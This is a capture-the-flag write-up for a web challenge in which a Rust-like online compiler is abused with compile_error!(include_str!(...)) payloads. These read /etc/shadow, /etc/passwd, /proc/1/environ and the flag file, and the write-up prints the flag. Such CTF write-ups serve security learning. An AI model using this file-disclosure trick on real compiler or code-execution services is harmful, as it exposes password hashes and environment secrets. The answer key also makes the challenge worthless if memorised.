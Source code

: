 # Rugină - CTF Challenge Writeup

## Challenge Description

**Challenge Name:** Rugină  
**Points:** 100  
**Category:** Web/Programming  
**Author:** thek0der

_"Aren't you tired of rust? I found the perfect solution for you! Welcome to Rugină. Since there is no compiler for it yet, I made one for you."_

Rugină (Romanian for "Rust") is a mock programming language that appears to have a web-based compiler interface. The challenge involves exploiting the compiler to read files from the server filesystem.

## Initial Analysis

When accessing the challenge, we're presented with a web interface that allows us to write "Rugină code" and execute it. The interface shows:

- A text area to input code
- A "Rulează Codul" (Run Code) button
- An output section showing compilation results

The key insight is that this appears to be a Rust-like language where we can potentially use compilation errors to leak file contents.

## Solution Approach

### Step 1: Understanding the Error Mechanism

From the interface, it's clear that we can write code that intentionally causes compilation errors. The technique we'll use involves the `compile_error!()` macro combined with `include_str!()` to read files and display their contents in error messages.

### Step 2: File System Exploration

I started by exploring various system files to understand the scope of the file inclusion vulnerability:

#### Attempt 1: `/etc/group`

![First attempt](image1.png)

```rust
principal() {} compile_error!(include_str!("/etc/group"));
```

**Result:** Successfully read `/etc/group` file, showing system groups.

#### Attempt 2: `/etc/shadow`

![First attempt](image2.png)

```rust
principal() {} compile_error!(include_str!("/etc/shadow"));
```

**Result:** Successfully read `/etc/shadow` file, showing system user password hashes.

#### Attempt 3: `/etc/passwd`

![Second attempt](image3.png)

```rust
principal() {} compile_error!(include_str!("/etc/passwd"));
```

**Result:** Successfully read `/etc/passwd` file, revealing system users and their information.

#### Attempt 4: `/proc/1/environ`

![Third attempt](image4.png)

```rust
principal() {} compile_error!(include_str!("/proc/1/environ"));
```

**Result:** Successfully read the environment variables of process 1.

### Step 3: Finding the Flag

![Fourth attempt](image.png)

#### Final Attempt: `/app/server/flag.txt` ✓

```rust
principal() {}
compile_error!(include_str!("/app/server/flag.txt"));
```

**Result:** Success! The flag was found in the final attempt.

![Flag found](image.png)

The output showed:

```
error: ctf{73523e676b04e1c2db176d80356488936480969f5ddf5ac40f8fc5b6c15d8692}
--> main.rs:2:1
```

### Step 3: Finding the Flag

After testing various system files, I returned to check common flag locations more carefully.

#### Final Successful Attempt: `/app/server/flag.txt`

This challenge demonstrated how a seemingly harmless "compiler" interface can be exploited to read arbitrary files from the server filesystem. The key was understanding that Rust-like syntax could be used with `compile_error!` and `include_str!` to turn compilation errors into an information disclosure vector.

The solution path involved:

1. Recognizing the compilation error exploitation potential
2. Exploring various system files to understand the vulnerability scope
3. Finally discovering the flag in `/app/server/flag.txt` after systematic exploration

**Final Flag:** `ctf{73523e676b04e1c2db176d80356488936480969f5ddf5ac40f8fc5b6c15d8692}`
